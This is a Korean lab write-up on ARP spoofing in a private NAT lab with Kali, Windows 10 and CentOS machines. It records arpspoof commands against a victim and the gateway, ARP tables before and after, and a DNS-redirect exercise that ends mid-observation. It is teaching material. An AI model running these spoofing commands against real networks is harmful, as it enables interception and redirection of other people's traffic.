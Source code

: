 # ARP Spoofing

## 개요

- MAC Address를 속여 LAN에서의 통신 흐름을 왜곡시키는 기법을 말한다.
- ARP 테이블이 바뀌면 경고를 보내는 툴을 통해 어느 정도는 예방할 수 있지만 근본적으로 TCP/IP 프로토콜 자체의 문제이기 때문에 ARP Spoofing에 대한 보안 대책은 없다.

### ARP 테이블
- IP주소와 해당 주소에 대한 MAC Address 목록을 말한다.
- 'cmd'창에서 'arp -a' 를 통해서 확인할 수 있다.

## 실습 1. 기본 실습 (IP를 이용한 공격)
### 🖥️ 실습 환경(NAT)
```
- Attacker(Kali)        192.168.10.134 / c / 192.168.10.2 / 192.168.10.2
- Victim(Windows 10)    192.168.10.130 / c / 192.168.10.2 / 192.168.10.2
``` 

```
[samadal@kali ~]$ sudo ip link show eth0
[sudo] password for samadal:
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
    link/ether 00:0c:29:b2:04:58 brd ff:ff:ff:ff:ff:ff

[samadal@kali ~]$ sudo arp -a
_gateway (192.168.10.2) at 00:50:56:e0:28:a3 [ether] on eth0
? (192.168.10.1) at 00:50:56:c0:00:08 [ether] on eth0

[samadal@kali ~]$ ifconfig eth0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.10.134  netmask 255.255.255.0  broadcast 192.168.10.255
        inet6 fe80::20c:29ff:feb2:458  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:b2:04:58  txqueuelen 1000  (Ethernet)
        RX packets 186  bytes 29318 (28.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 149  bytes 20777 (20.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

```
kali            (192.168.10.134) / 00:0c:29:b2:04:58
Windows 10      (192.168.10.132) / 00-0C-29-BE-47-CB
G/W             (192.168.10.2)   / 00:50:56:e0:28:a3

```  
## ARP Spoofing을 이용한 MAC Address 변경

```
sudo dsniff
```
```
sudo arpspoof -i eth0 -t 192.168.10.130 192.168.10.2
```
- 명령어 실행 전
```
kali            (192.168.10.134) / 00:0c:29:b2:04:58
Windows 10      (192.168.10.132) / 00-0C-29-BE-47-CB
G/W             (192.168.10.2)   / 00:50:56:e0:28:a3
```
![전](./img/스푸핑img/1.png)
- 명령어 실행 후
```
kali            (192.168.10.134) / 00:0c:29:b2:04:58
Windows 10      (192.168.10.132) / 00-0C-29-BE-47-CB
G/W             (192.168.10.2)   / 00:0c:29:b2:04:58
```
![후](./img/스푸핑img/2.png)

## 결론
- 공격을 하고 있는 동안만 MAC Address가 변경된다.

## 실습 2. 응용 실습 (도메인을 이용한 공격)

### 개요
- CentOS에서 DNS서버와 Web 서버를 구축한다.
- Kali에서 ARP Spoofing 공격을 시도한다.
- Window 10에서 사이트 출력을 확인하고 변조된 것을 확인한다.

### 🖥️ 실습 환경(NAT)
```
- Attacker(Kali)        192.168.10.134 / c / 192.168.10.2 / 192.168.10.132
- Victim(CentOS)        192.168.10.132 / c / 192.168.10.2 / 192.168.10.132
- 확인(Windows 10)       192.168.10.130 / c / 192.168.10.2 / 192.168.10.132
``` 

### Step 1. 3개의 시스템에 IP를 설정

### Step 2. CentOS에서 'Kali'에 호스트 부여

### Step 3. windows 10에서 네임서버 조회를 하고 'MAC Address'로 확인한다.

![후](./img/스푸핑img/3.png)

### Step 4. Windows 10에서 '사이트(www.gusiya.com)'를 출력한다.

![후](./img/스푸핑img/4.png)


### Step 5. 'kali'에서 시스템 재구성

- Apache2 패키지 설치, 방화벽 추가 후 활성화
- 사이트 출력 <br>
![후](./img/스푸핑img/5.png)

### Step 6. 'Kali' 에서 'DNS Spoofing'으로 두 시스템에 공격을 실행한다.
```
sudo arpspoof -i eth0 -t 192.168.10.130 192.168.10.2
```
- windows 10<br>

![후](./img/스푸핑img/6.png)

→ 모두 정상적으로 출력이 된다.<br>

→ 그 이유는 **'windows 10'** 단지 사이트를 출력만 하고 있기 때문에 실제 공격을 받았지만 사이트는 아무런 영향을 받지 않는다.<br>

```
sudo arpspoof -i eth0 -t 192.168.10.132 192.168.10.2
```
![후](./img/스푸핑img/7.png) <br>
이것도 변화가 없다. <br>

![센토스](./img/스푸핑img/8.png) <br>
```
현재 arp -a 출력에서 확인된 사항
192.168.10.2 (gateway) 와 192.168.10.134 (attack.gusiya.com)이 동일한 MAC 주소 (00:0c:29:b2:04:58) 를 가짐.

이는 일반적으로 ARP 스푸핑(위조) 또는 ARP 포이즈닝 공격의 징후입니다.
```
변화
